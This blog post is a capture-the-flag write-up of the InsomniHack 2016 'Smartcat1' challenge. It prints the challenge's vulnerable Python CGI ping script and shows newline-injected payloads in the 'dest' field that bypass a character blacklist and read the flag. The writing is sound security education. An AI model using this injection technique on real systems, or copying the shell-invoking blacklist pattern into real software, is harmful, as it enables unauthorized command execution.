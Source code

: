 ```yaml
---
layout: blog_item
title:  "InsomniHack CTF Teaser - Smartcat1 Writeup"
date:   2016-01-18 14:00:10
author: Arr0way
description: 'InsomniHack Teaser CTF 2016, smartcat1 challenge writeups.'
categories: [walkthroughs]
tags:
- burp
- 'command injection'
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}


## Challenge Description

Exploit the web based ping command tool and capture the flag.  

![smartcat1 CTF](/img/blog/insomnihack/smartcat1.png)

## InsomniHack Smartcat1

Entering nothing or a <code>'</code> renders the error: <code>Error running ping -c 1 foo</code>. Enumeration indicated the following characters were filtered <code>$;&amp;|({`\t</code> Note, that included whitespace filtering.  

I loaded up burp and went through the ASCII table for other ways of escaping the command. It was possible to use LF <code>%0a</code> to escape the existing command and enter another such as: <code>dest=8.8.8.8%0als</code>.

Viewing the source code of <code>index.cgi</code> confirmed the character filtering.

{% highlight python %}
#!/usr/bin/env python

import cgi, subprocess, os

headers = ["mod_cassette_is_back/0.1","format-me-i-im-famous","dirbuster.will.not.help.you","solve_me_already"]

print "X-Powered-By: %s" % headers[os.getpid()%4]
print "Content-type: text/html"
print

print """
&lt;html&gt;

&lt;head&gt;&lt;title&gt;Can I haz Smart Cat ???&lt;/title&gt;&lt;/head&gt;

&lt;body&gt;

  &lt;h3&gt; Smart Cat debugging interface &lt;/h3&gt;
"""

blacklist = " $;&amp;|({`\t"
results = ""
form = cgi.FieldStorage()
dest = form.getvalue("dest", "127.0.0.1")
for badchar in blacklist:
    if badchar in dest:
        results = "Bad character %s in dest" % badchar
        break

if "%n" in dest:
    results = "Segmentation fault"

if not results:
    try:
        results = subprocess.check_output("ping -c 1 "+dest, shell=True)
    except:
        results = "Error running " + "ping -c 1 "+dest

print """

  &lt;form method="post" action="index.cgi"&gt;
    &lt;p&gt;Ping destination: &lt;input type="text" name="dest"/&gt;&lt;/p&gt;
  &lt;/form&gt;

  &lt;p&gt;Ping results:&lt;/p&gt;&lt;br/&gt;
  &lt;pre&gt;%s&lt;/pre&gt;

  &lt;img src="../img/cat.jpg"/&gt;

&lt;/body&gt;

&lt;/html&gt;
""" % cgi.escape(results)
{% endhighlight %}

## Flag

Entering <code>dest=%0afind</code> listed the current directory, revealing the path of the flag.

{% highlight bash %}
dest=8.8.8.8%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
{% endhighlight %}

Flag contents:

{% highlight bash %}
INS{warm_kitty_smelly_kitty_flush_flush_flush}
{% endhighlight %}

Thanks for the CTF :)
